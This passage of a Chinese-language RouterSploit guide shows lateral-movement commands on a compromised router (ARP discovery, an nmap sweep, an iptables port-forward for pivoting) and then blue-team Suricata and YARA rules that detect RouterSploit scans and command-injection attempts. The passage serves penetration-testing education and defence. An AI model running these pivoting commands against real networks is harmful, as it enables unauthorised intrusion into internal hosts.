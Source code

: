 #### 2. 横向移动技术

```bash
# 从受控路由器发现内网主机
rsf > use exploits/routers/compromised/exec
rsf (Exec) > set target 192.168.1.1
rsf (Exec) > run "arp -a"

# 扫描内网其他设备
rsf (Exec) > run "nmap -sP 192.168.1.0/24"

# 设置端口转发进行内网渗透
rsf (Exec) > run "iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.50:80"
```

---

### 十七、蓝队防御检测规则

#### 1. Suricata 检测规则

```
# 检测 RouterSploit 扫描活动
alert http any any -> $HOME_NET any (\
    msg:"ROUTERSPLOIT - Possible Autopwn Scan"; \
    flow:established,to_server; \
    http.uri; content:"/autopwn"; nocase; \
    classtype:web-application-attack; \
    sid:1000001; rev:1;)

# 检测常见漏洞利用尝试
alert http any any -> $HOME_NET any (\
    msg:"ROUTERSPLOIT - Command Injection Attempt"; \
    flow:established,to_server; \
    http.uri; content:".cgi"; \
    http.request_body; content:"|3b|"; content:"id"; distance:0; \
    classtype:web-application-attack; \
    sid:1000002; rev:1;)
```

#### 2. YARA 规则检测内存中的 RouterSploit

```
rule RouterSploit_Detection {
    meta:
        description = "Detects RouterSploit framework in memory"
        author = "Blue Team"
        date = "2024-01-01"
    
    strings:
        $rsf1 = "routersploit" ascii wide
        $rsf2 = "OptIP" ascii wide
        $rsf3 = "OptPort" ascii wide
        $rsf4 = "scanners/autopwn" ascii wide
    
    condition:
        any of them
}
```

---
